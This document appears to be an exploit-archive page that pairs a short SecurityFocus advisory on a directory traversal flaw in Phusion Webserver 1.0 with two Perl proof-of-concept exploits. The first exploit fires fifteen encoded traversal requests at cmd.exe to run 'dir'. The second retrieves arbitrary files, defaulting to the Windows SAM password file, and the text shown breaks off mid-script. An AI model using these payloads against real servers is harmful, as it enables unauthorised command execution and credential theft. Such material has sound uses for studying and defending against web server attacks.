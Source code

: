 INFO1
-----

    source: http://www.securityfocus.com/bid/4117/info

    Phusion Webserver is a commercial HTTP server that runs on Microsoft Windows 9x/NT/2000 operating systems.

    Phusion Webserver is prone to directory traversal attacks. It is possible to break out of wwwroot using triple-dot-slash (.../) sequences containing HTTP-encoded variations of "/" and "\". As a result, a malicious web user may browse web-readable files on the host running the vulnerable software.

    This vulnerability may potentially result in the disclosure of sensitive information contained in web-readable files on the host.

    It should be noted that webservers normally run with SYSTEM privileges on Microsoft Windows operating systems.

    #!/usr/bin/perl
    #
    # Simple script to identify if the host is vulnerable!,
    #
    # This does 15 different checks based IIS 4-5. Have Fun!
    #
    # Phusion Webserver v1.0 proof-of-concept exploit
    # By Alex Hernandez <al3xhernandez@ureach.com> (C)2002.
    #
    # Thanks all the people from Spain and Argentina.
    # Special Greets: White-B, Pablo S0r, Paco Spain, L.Martins,
    # G.Maggiotti & H.Oliveira.
    #
    #
    # Usage: perl -x Phusion_exp.pl <Hosts>:<Port>
    #
    # Example:
    #
    # perl -x Phusion_exp.pl www.whitehouse.com:80
    # Trying.....................
    #
    # <THIS HOST IS VULNERABLE> :-)
    # Check the previous notes to execute bugs.
    #
    #

    use Socket;

    if ($#ARGV<0) {die "
    \nPhusion Webserver v1.0 traversal exploit(c)2002.
    Alex Hernandez al3xhernandez\@ureach.com\n

    Usage: perl -x $0 www.whitehouse.com:80 {OR}\n
    [if the host is not using a proxy]\n
    Usage: perl -x $0 127.0.0.1:80\n\n";}

    ($host,$port)=split(/:/,@ARGV[0]);
    print "Trying.....................\n";
    $target = inet_aton($host);
    $flag=0;

    # ---------------test method 1
    my @results=sendraw("GET
    /scripts/..%c0%af../winnt/system32/cmd.exe?/c+dir
    HTTP/1.0\r\n\r\n");
    foreach $line (@results){
     if ($line =~ /Directory/) {$flag=1;}}

    # ---------------test method 2
    my @results=sendraw("GET
    /scripts..%c1%9c../winnt/system32/cmd.exe?/c+dir
    HTTP/1.0\r\n\r\n");
    foreach $line (@results){
     if ($line =~ /Directory/) {$flag=1;}}

    # ---------------test method 3
    my @results=sendraw("GET
    /scripts/..%c1%pc../winnt/system32/cmd.exe?/c+dir
    HTTP/1.0\r\n\r\n");
    foreach $line (@results){
     if ($line =~ /Directory/) {$flag=1;}}

    # ---------------test method 4
    my @results=sendraw("GET
    /scripts/..%c0%9v../winnt/system32/cmd.exe?/c+dir
    HTTP/1.0\r\n\r\n");
    foreach $line (@results){
     if ($line =~ /Directory/) {$flag=1;}}

    # ---------------test method 5
    my @results=sendraw("GET
    /scripts/..%c0%qf../winnt/system32/cmd.exe?/c+dir
    HTTP/1.0\r\n\r\n");
    foreach $line (@results){
     if ($line =~ /Directory/) {$flag=1;}}

    # ---------------test method 6
    my @results=sendraw("GET
    /scripts/..%c1%8s../winnt/system32/cmd.exe?/c+dir
    HTTP/1.0\r\n\r\n");
    foreach $line (@results){
     if ($line =~ /Directory/) {$flag=1;}}


    # ---------------test method 7
    my @results=sendraw("GET
    /scripts/..%c1%1c../winnt/system32/cmd.exe?/c+dir
    HTTP/1.0\r\n\r\n");
    foreach $line (@results){
     if ($line =~ /Directory/) {$flag=1;}}

    # ---------------test method 8
    my @results=sendraw("GET
    /scripts/..%c1%9c../winnt/system32/cmd.exe?/c+dir
    HTTP/1.0\r\n\r\n");
    foreach $line (@results){
     if ($line =~ /Directory/) {$flag=1;}}


    # ---------------test method 9
    my @results=sendraw("GET
    /scripts/..%c1%af../winnt/system32/cmd.exe?/c+dir
    HTTP/1.0\r\n\r\n");
    foreach $line (@results){
     if ($line =~ /Directory/) {$flag=1;}}

    # ---------------test method 10
    my @results=sendraw("GET
    /scripts/..%e0%80%af../winnt/system32/cmd.exe?/c+dir
    HTTP/1.0\r\n\r\n");
    foreach $line (@results){
     if ($line =~ /Directory/) {$flag=1;}}

    # ---------------test method 11
    my @results=sendraw("GET
    /scripts/..%f0%80%80%af../winnt/system32/cmd.exe?/c+dir
    HTTP/1.0\r\n\r\n");
    foreach $line (@results){
     if ($line =~ /Directory/) {$flag=1;}}

    # ---------------test method 12
    my @results=sendraw("GET
    /scripts/..%f8%80%80%80%af../winnt/system32/cmd.exe?/c+dir
    HTTP/1.0\r\n\r\n");
    foreach $line (@results){
     if ($line =~ /Directory/) {$flag=1;}}

    # ---------------test method 13
    my @results=sendraw("GET
    /scripts/..%fc%80%80%80%80%af../winnt/system32/cmd.exe?/c+dir
    HTTP/1.0\r\n\r\n");
    foreach $line (@results){
     if ($line =~ /Directory/) {$flag=1;}}

    # ---------------test method 14
    my @results=sendraw("GET
    /msadc/..\%e0\%80\%af../..\%e0\%80\%af../..\%e0\%80\%af../
    winnt/system32/cmd.exe\?/c\+dir
    HTTP/1.0\r\n\r\n");
    foreach $line (@results){
     if ($line =~ /Directory/) {$flag=1;}}

    # ---------------test method 15
    my @results=sendraw("GET
    /.../.../.../.../winnt/system32/cmd.exe\?/c\+dir
    HTTP/1.0\r\n\r\n");
    foreach $line (@results){
     if ($line =~ /Directory/) {$flag=1;}}

    #------------------------------
    if ($flag==1){print "<THIS HOST IS VULNERABLE> :-)\n
    Check the previous notes to execute bugs\n";}
    else {print "<THIS HOST IS NOT VULNERABLE> :-( \n
    Check manually on browser...\n";}


    sub sendraw {
            my ($pstr)=@_;
            socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp')||0) ||
                    die("Socket problems\n");
            if(connect(S,pack "SnA4x8",2,$port,$target)){
                    my @in;
                    select(S);      $|=1;   print $pstr;
                    while(<S>){ push @in, $_;}
                    select(STDOUT); close(S); return @in;
            } else { die("Can't connect check the port or address...\n"); }
    }

INFO2
-----

    source: http://www.securityfocus.com/bid/4117/info

    Phusion Webserver is a commercial HTTP server that runs on Microsoft Windows 9x/NT/2000 operating systems.

    Phusion Webserver is prone to directory traversal attacks. It is possible to break out of wwwroot using triple-dot-slash (.../) sequences containing HTTP-encoded variations of "/" and "\". As a result, a malicious web user may browse web-readable files on the host running the vulnerable software.

    This vulnerability may potentially result in the disclosure of sensitive information contained in web-readable files on the host.

    It should be noted that webservers normally run with SYSTEM privileges on Microsoft Windows operating systems.

    #!/usr/bin/perl
    #
    # THIS SCRIPT ONLY FOR WINDOWS WITH PERL OR CYGWIN
    #
    # Simple script to get files on server.
    #
    # Maybe u need this line for windows:
    # #! c:\perl\bin\perl.exe
    #
    # Phusion Webserver v1.0 proof-of-concept exploit.
    # By Alex Hernandez <al3xhernandez@ureach.com> (C)2002.
    #
    # Thanks all the people from Spain and Argentina.
    # Special Greets: White-B, Pablo S0r, Paco Spain, L.Martins,
    # G.Maggiotti & H.Oliveira.
    #
    #
    # Usage: perl -x Phusion-GET.pl <And read the Intructions>
    #
    #


    print("\nPhusion Webserver v1.0 GET Files exploit (c)2002.\n");
    print("Alex Hernandez al3xhernandez\@ureach.com\n\n");


    print <<"EOT";
    Please type the address remote webserver, example: www.whitehouse.gov
    [Default remote Webserver is "127.0.0.1"`]:
    EOT
    $host = <>;

    print <<"EOT";
    Please type only in the directory where the file is located you want to
    download,
    example: /winnt/repair/
    [default directory is "/winnt/repair/"] :#For IIS 4-5
    EOT
    $directory = <> || "/winnt/repair/";


    print <<"EOT";
    Please type in the filename you want download example: sam._
    [default file is "sam._"] :
    EOT
    $file = <> || "sam._";

    {
    #Maybe u to change this line depending of PATH installation.
    system("explorer.exe", "http://$host:80/../../..$directory$file");
    }

    print <<"EOT";